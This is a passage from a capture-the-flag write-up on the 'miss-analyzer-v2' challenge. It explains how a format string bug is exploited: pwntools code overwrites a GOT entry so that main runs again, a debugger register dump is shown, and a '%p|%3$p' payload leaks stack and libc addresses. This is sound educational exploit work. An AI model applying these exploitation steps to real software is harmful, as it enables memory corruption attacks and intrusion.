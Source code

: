 With this, we can start planning our exploit.

### Looping

Firstly, we definitely need to exploit the fmtstr bug multiple times. This means
we need to return back to main somehow. Since PIE isn't enabled and we have
partial RELRO, we can overwrite the GOT entry of `seccomp_release{:c}` to
`main{:c}`, so we call main again right before we exit.

I used the `fmtstr_payload{:py}` function available in pwntools for most of the
writes in this challenge.

```python
payload = construct_payload(fmtstr_payload(16, {exe.got.seccomp_release: exe.sym.main}))
```

### Leaks

Before we start ropping, we need to leak the libc and stack address. This is the
state of the registers when we break at the `printf{:c}` call:

```ansi
LEGEND: [33mSTACK[39m | [34mHEAP[39m | [31mCODE[39m | [35mDATA[39m | [4m[31mWX[0m | RO
DATA
 [1mRAX [0m 0
[31m*[1mRBX [0m [34m0x16aefba0[39m ◂— '00000000000b01610b0725707c253324700b0161000000000000000000000100'
 [1mRCX [0m [31m0x7437265148f7 (write+23)[39m ◂— [38;5;148mcmp[38;5;15m [38;5;81mrax[38;5;15m,-[38;5;141m0x1000[39m /* 'H=' */
 [1mRDX [0m 0
[31m*[1mRDI [0m [33m0x7ffc98260e70[39m
[31m*[1mRSI [0m [33m0x7ffc9825ed00[39m ◂— 'Player name: t'
 [1mR8  [0m 0xd
 [1mR9  [0m 0x7fffffff
 [1mR10 [0m 0x402179 ◂— 'Player name: '
 [1mR11 [0m 0x246
 [1mR12 [0m [33m0x7ffc98261228[39m —▸ [33m0x7ffc98262a27[39m ◂— '/home/samuzora/ctf/comp/2025-H0/osuctf/miss-analyzer-v2/dist/analyzer_patched'
 [1mR13 [0m [31m0x401749 (main)[39m ◂— [38;5;148mendbr64[38;5;15m [39m
 [1mR14 [0m 0x403e08 (__do_global_dtors_aux_fini_array_entry) —▸ [31m0x4012e0 (__do_global_dtors_aux)[39m ◂— [38;5;148mendbr64[38;5;15m [39m
 [1mR15 [0m [35m0x743726821040 (_rtld_global)[39m —▸ [35m0x7437268222e0[39m ◂— 0
[31m*[1mRBP [0m [33m0x7ffc98260f90[39m —▸ [33m0x7ffc98261110[39m ◂— 1
[31m*[1mRSP [0m [33m0x7ffc98260e20[39m —▸ [34m0x16aef010[39m ◂— 0x2000000000007
 [1mRIP [0m [31m0x401ada (main+913)[39m ◂— [38;5;148mcall[38;5;15m [31mprintf@plt
```

We have a stack address in rsi, and libc address in rcx. These are accessed via
the 1st and 3rd format string indexes respectively, according to the x86_64
calling convention. Therefore, we can leak them with this payload:

```python
sleep(0.5)
p.clean()
payload = construct_payload(b"%p|%3$p")
p.send(payload)

p.recvuntil(b"Player name: ")

stack_leak = int(p.recvuntil(b"|", drop=True), 16)
libc.address = int(p.recvline(), 16) - 0x1148f7

print(f"{stack_leak = :0x}")
print(f"{libc.address = :0x}")
```
